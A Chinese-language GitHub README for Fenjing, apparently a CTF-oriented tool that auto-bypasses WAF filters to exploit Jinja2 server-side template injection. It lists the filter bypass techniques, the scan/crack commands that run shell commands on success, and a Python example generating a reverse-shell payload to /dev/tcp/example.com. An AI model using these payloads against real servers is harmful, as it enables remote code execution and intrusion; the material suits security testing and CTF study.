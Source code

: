 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![CTFShow web365](assets/demo.webp)

`python -m fenjing scan --url 'http://xxx/'`

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run marven11/fenjing scan --url 'http://xxx/'
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing scan --url 'http://xxx/'
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

```
Usage: python -m fenjing scan [OPTIONS]

Options:
  --url TEXT       需要扫描的URL
  --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --help           Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  --url TEXT       form所在的URL
  --action TEXT    form的action，默认为当前路径
  --method TEXT    form的提交方式，默认为POST
  --inputs TEXT    form的参数，以逗号分隔
  --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --help           Show this message and exit.
```

### 作为python库使用

参考[example.py](fenjing/example.py)

```python
from fenjing import exec_cmd_payload

import functools
import time
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)

```

